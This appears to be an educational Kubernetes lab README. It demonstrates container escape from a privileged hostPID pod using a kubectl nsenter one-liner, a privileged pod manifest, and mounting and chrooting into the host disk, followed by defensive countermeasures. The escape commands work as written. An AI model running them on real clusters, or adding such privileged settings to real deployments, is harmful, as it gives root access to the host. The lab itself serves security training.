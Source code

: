 # 🧪 Container Escape in Kubernetes (for Educational Purposes Only)

## ⚠️ Disclaimer

**This lab is for training and awareness only!**  
Never attempt container escapes in unauthorized environments.

---

## 🎯 Objective

Understand how misconfigured containers can allow attackers to escape into the host system.

---

## 🧰 Prerequisites

- Kubernetes cluster (preferably local, like Minikube or kind)
- `kubectl` configured
- A pod is allowed to run in privileged mode (for simulation)

---

## Lab 1: One-Liner Kubernetes Container Escape

Duffie Cooley and Ian Coldwater pulled the following Kubernetes one-liner together the first time they met:

### Step 1: Run the one-liner

Just run this:

```bash
kubectl run r00t --restart=Never -ti --rm --image lol --overrides '{"spec":{"hostPID": true, "containers":[{"name":"1","image":"alpine", "command":["nsenter","--mount=/proc/1/ns/mnt","--", "/bin/bash"],"stdin": true,"tty":true,"securityContext":{"privileged":true}}]}}'
```

### Step 2: Check for root in the process namespace

```bash
r00t# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),...
```

### Step 3: Check for kernel PIDs to verify we’re in the root namespace

```bash
r00t# ps faux 
```

---

## 🔹 Lab 2: Deploy a Privileged Pod

Deploy a highly privileged pod:

```yaml
# privileged-escape-pod.yaml
apiVersion: v1
kind: Pod
metadata:
  name: escape-demo
spec:
  hostPID: true
  containers:
  - name: attacker
    image: busybox
    command: ["sleep", "3600"]
    securityContext:
      privileged: true
```

```bash
kubectl apply -f privileged-escape-pod.yaml
```

✅ Pod runs with `hostPID` and `privileged` mode — dangerous in production!

---

## 🔹 Lab 3: Inspect Host Processes from Inside the Pod

```bash
kubectl exec -it escape-demo -- sh
```

Inside the container:

```bash
ps aux
```

✅ **Expected:** You see host system processes.

---

## 🔹 Lab 4: Access the Host Filesystem

Still inside the container:

```bash
ls /host
```

(May fail if `/host` is not mounted — so let's try mounting it.)

Mount the host root filesystem:

```bash
mkdir /mnt
mount /dev/sda1 /mnt
ls /mnt
```

✅ Gain access to the host filesystem.

---

## 🔹 Lab 5: Spawn a Host Shell

Inside the container (dangerous):

```bash
chroot /mnt /bin/sh
```

✅ **You are now running as root on the host** from inside the container.

---

## 🔹 Lab 6: Defensive Countermeasures

- **Never** allow `privileged: true` unless absolutely necessary.
- **Do not** enable `hostPID`, `hostNetwork`, or `hostIPC` unless required.
- Use **PodSecurityAdmission** with `restricted` level.
- Enforce **AppArmor**, **Seccomp**, and **readOnlyRootFilesystem**.
- Regularly audit pods for excessive privileges.

---

## 🔹 Lab 7: Clean Up

```bash
kubectl delete pod escape-demo
```

---

## ✅ Wrap-Up

- ✅ Demonstrated how container misconfiguration can lead to host escape
- ✅ Understood the power of `privileged` and `hostPID`
- ✅ Learned prevention strategies for real-world defense

---
